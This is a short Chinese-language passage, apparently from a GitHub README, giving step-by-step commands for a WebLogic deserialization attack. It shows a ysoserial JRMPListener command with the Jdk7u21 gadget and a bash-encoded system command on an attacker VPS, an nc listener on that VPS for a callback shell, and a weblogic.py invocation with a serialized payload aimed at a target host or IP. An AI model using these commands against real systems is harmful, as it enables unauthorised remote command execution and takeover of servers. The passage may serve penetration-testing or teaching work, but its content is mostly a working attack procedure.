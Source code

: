 vps利用ysoserial-0.0.6-SNAPSHOT-BETA-all.jar开启JRMP监听（此处需要将系统命令进行bash编码）。

vps执行：java -cp ysoserial-0.0.6-SNAPSHOT-BETA-all.jar ysoserial.exploit.JRMPListener 1099 Jdk7u21 "bash编码后的系统命令"

![Dingtalk_20220323160114](.\image\Dingtalk_20220323160114.jpg)

vps开启nc监听。

![Dingtalk_20220323160255](.\image\Dingtalk_20220323160255.jpg)

本机利用weblogic.py脚本发起反序列化攻击。

本机执行：python2 weblogic.py 目标主机域名或IP 端口 poc5.ser

![Dingtalk_20220323160554](.\image\Dingtalk_20220323160554.jpg)
